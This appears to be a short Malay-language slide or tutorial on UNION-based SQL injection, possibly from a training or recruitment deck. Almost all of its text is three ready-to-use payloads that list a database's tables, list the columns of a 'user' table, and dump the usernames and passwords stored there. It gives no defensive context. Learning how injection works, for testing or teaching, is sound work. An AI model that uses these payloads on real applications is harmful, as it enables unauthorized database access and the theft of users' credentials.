

# Extract information
Untuk extract data table daripada database :

1' and 1=2 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database() -- -

Untuk extract column daripada table yang kita pilih :

1' and 1=2 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema = database() and table_name ='user'-- -

Extract sensitive data daripada table user :

1' and 1=2 union select 1,group_concat(username,0x3a,password),3,4 from user-- -

DFM_Rekrut